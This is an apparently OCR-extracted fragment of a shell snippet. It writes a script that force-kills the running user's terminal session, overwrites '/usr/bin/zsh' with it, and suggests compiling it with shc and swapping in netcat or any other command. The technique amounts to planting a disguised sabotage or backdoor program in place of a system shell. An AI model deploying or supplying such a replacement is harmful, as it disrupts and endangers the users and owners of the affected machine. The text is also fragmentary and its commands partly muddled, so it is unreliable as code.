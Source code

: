 # You can change for whatever command you want do zsh, and netcat etc
vim zsh.sh 

#!/bin/bash
pkill -9 -t $(ps ax | grep "^$$" | awk '{ print $2 }') >/dev/null 2>/dev/null

### shc -f nc.sh #nc.x will be a binary'

'mv zsh.sh /usr/bin/zsh'

'chmod 701 /usr/bin/zsh'
